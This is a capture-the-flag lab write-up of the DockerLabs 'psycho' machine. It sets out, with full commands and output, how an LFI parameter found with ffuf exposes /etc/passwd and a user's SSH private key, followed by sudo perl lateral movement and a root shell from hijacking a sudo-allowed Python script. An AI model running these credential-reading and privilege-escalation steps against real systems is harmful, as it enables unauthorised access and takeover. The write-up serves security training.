


# psycho

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| psycho | Luisillo_o | easy/facil | dockerlabs |

**Summary:** The psycho machine was a two-hop privilege escalation challenge combining LFI parameter fuzzing to discover a hidden SSH private key, followed by lateral movement via `sudo perl` and a Python script hijack to reach root. The web application on port 80 served an `index.php` with no obvious parameter. `ffuf` was used to fuzz query parameters by testing the pattern `?FUZZ=/etc/passwd` against the DirBuster medium wordlist, filtering on the default response size of 2596 bytes. The keyword `secret` was identified as a valid LFI parameter. The web page source at `?secret=/etc/passwd` disclosed usernames, and `?secret=/home/vaxei/.ssh/id_rsa` returned the RSA private key for user `vaxei`. The key was saved and its fingerprint verified with `ssh-keygen -l`. SSH access was established as `vaxei`. Reading `.bash_history` showed prior use of `sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'`. A `sudo -l` check confirmed passwordless access to `/usr/bin/perl` as `luisillo`. Running `sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'` spawned a `luisillo` shell. As `luisillo`, `sudo -l` revealed passwordless access to run `/usr/bin/python3 /opt/paw.py` as any user. The script `/opt/paw.py` was root-owned but readable, containing dummy processing functions. The original was backed up and replaced with a one-liner `import os;os.setuid(0);os.setgid(0);os.system("/bin/bash")`. Running `sudo /usr/bin/python3 /opt/paw.py` produced an immediate root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ sudo bash auto_deploy.sh psycho.tar    

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 06:51 +0700
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: B2:AA:A4:DC:AF:99 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.20 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 titled "4You".

---

## Initial Access

### LFI Parameter Discovery via ffuf and SSH Key Extraction

**3. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              js,css,txt,html,env,png,php,zip,tar,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 2596]
main.css             (Status: 200) [Size: 619]
assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

**4. Fuzzing for LFI Parameters with ffuf**

The `index.php` page had a default response size of 2596 bytes. `ffuf` was used to fuzz query parameter names using the pattern `?FUZZ=/etc/passwd`, filtering out responses matching the baseline size.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ ffuf -u "http://$ip?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -fs 2596

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2596
________________________________________________

secret                  [Status: 200, Size: 3870, Words: 678, Lines: 89, Duration: 69ms]
:: Progress: [220546/220546] :: Job [1/1] :: 3278 req/sec :: Duration: [0:01:30] :: Errors: 0 ::
```

The parameter `secret` was identified. Browsing `?secret=/etc/passwd` and `?secret=/home/vaxei/.ssh/id_rsa` confirmed LFI and returned the SSH private key.





**5. Saving the Key and Connecting via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ vim id_rsa

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ chmod 600 id_rsa 

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ ssh-keygen -l -f id_rsa
3072 SHA256:u8qoiP/GMIo3iMwHEA9RTbkkqScptZcYCcXQiLVkuVw vaxei@231de0266ffd (RSA)
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/psycho]
└─$ ssh -i id_rsa vaxei@$ip                                    
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:KZdmmK93JpQdEgEdRl0JYVD4l+Gdfix6KM9aUmZc1lA
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Aug 10 02:25:09 2024 from 172.17.0.1
vaxei@72287787f3aa:~$ id;whoami;hostname
uid=1001(vaxei) gid=1001(vaxei) groups=1001(vaxei),100(users)
vaxei
72287787f3aa
```

---

## Lateral Movement

### vaxei to luisillo via sudo perl

**6. Reviewing .bash_history and sudo Permissions**

```bash
vaxei@72287787f3aa:~$ cat .bash_history 
cd /home/
ls
cd ubuntu/
su root
sudo su
exit
sudo -l
apt install sudo
exit
ssh-keygen -t rsa -b 4096 -C "vaxei@$(hostname)"
ls
cd vaxei/
ls
ls -la
cd .ssh/
l;s
;s
ls
ls -l
chmod 700 /home/vaxei/.ssh
chmod 600 /home/vaxei/.ssh/id_rsa
chmod 644 /home/vaxei/.ssh/id_rsa.pub
ls
ls -l
chmod 777 id_rsa
ls -l /etc/passwd
ls -l id_rsa
chmod 644 ~/.ssh/id_rsa
ls -l
cat id_rsa
chmod -R o+r /home/vaxei
cd ..
ls
nano file.txt
cat /var/www/html/index.php 
sudo chown www-data:www-data /home/vaxei/.ssh/file.txt
exit
cd vaxei/
ls
rm file.txt 
exit
cd vaxei/
ls
exit
service apache2 start
exit
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
exit
chmod 700 ~/.ssh
# Establecer los permisos del archivo authorized_keys
chmod 600 ~/.ssh/authorized_keys
exit
nano /etc/ssh/sshd_config
cat  /etc/ssh/sshd_config
exit
ssh-keygen -t rsa -b 4096 -C "vaxei@localhost"
cat id_rsa
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chown vaxei:vaxei ~/.ssh
chown vaxei:vaxei ~/.ssh/authorized_keys
service ssh restart
exit
ssh-keygen -t rsa
ls
cd vaxei/
ls
cd .ssh/
ls
cat id_rsa
ssh-copy-id -i ~/.ssh/id_rsa.pub vaxei@localhost
ls -la
cat authorized_keys 
exit
sudo -l
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
exit
vaxei@72287787f3aa:~$ sudo -l
Matching Defaults entries for vaxei on 72287787f3aa:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 72287787f3aa:
    (luisillo) NOPASSWD: /usr/bin/perl
vaxei@72287787f3aa:~$ sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

```bash
luisillo@72287787f3aa:/home/vaxei$ cd
luisillo@72287787f3aa:~$ id;whoami;hostname
uid=1002(luisillo) gid=1002(luisillo) groups=1002(luisillo)
luisillo
72287787f3aa
```

---

## Privilege Escalation

### Python Script Hijack via sudo python3

**7. Checking sudo Permissions and Reading /opt/paw.py**

```bash
luisillo@72287787f3aa:~$ sudo -l
Matching Defaults entries for luisillo on 72287787f3aa:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 72287787f3aa:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
luisillo@72287787f3aa:~$ ls -la /opt/paw.py 
-rw-r--r-- 1 root root 967 Aug 10  2024 /opt/paw.py
luisillo@72287787f3aa:~$ cat /opt/paw.py 
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
luisillo@72287787f3aa:~$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 10 Apr 12  2024 /usr/bin/python3 -> python3.12
luisillo@72287787f3aa:~$ ls -la /usr/bin/python3.12
-rwxr-xr-x 1 root root 8019136 Jul 31  2024 /usr/bin/python3.12
```

The script was root-owned but `luisillo` could replace it in `/opt/`. The original was backed up and replaced.

**8. Replacing /opt/paw.py and Escalating**

```bash
luisillo@72287787f3aa:~$ mv /opt/paw.py /opt/paw.py.bak
```

```bash
luisillo@72287787f3aa:~$ cat > /opt/paw.py << 'EOF'
> import os;os.setuid(0);os.setgid(0);os.system("/bin/bash")
> EOF
luisillo@72287787f3aa:~$ sudo /usr/bin/python3 /opt/paw.py
root@72287787f3aa:/home/luisillo# cd
root@72287787f3aa:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
72287787f3aa
```

Full root access was achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. Gobuster found `index.php` with a default size of 2596 bytes.
2. **LFI Discovery**: `ffuf` fuzzed `?FUZZ=/etc/passwd` filtering size 2596 and identified `secret` as the LFI parameter. Browsing `?secret=/etc/passwd` disclosed usernames including `vaxei`. Browsing `?secret=/home/vaxei/.ssh/id_rsa` returned the full RSA private key.
3. **SSH Access**: The key was saved, permissions set to 600, and its fingerprint verified with `ssh-keygen -l`. SSH access was established as `vaxei` without a passphrase.
4. **Lateral Movement**: Reading `.bash_history` showed prior use of `sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'`. `sudo -l` confirmed passwordless access to `/usr/bin/perl` as `luisillo`. Running `sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'` spawned a `luisillo` shell.
5. **Privilege Escalation**: As `luisillo`, `sudo -l` showed passwordless access to `python3 /opt/paw.py` as any user. The original script was backed up with `mv`. A replacement one-liner `import os;os.setuid(0);os.setgid(0);os.system("/bin/bash")` was written. Running `sudo /usr/bin/python3 /opt/paw.py` produced an immediate root shell.
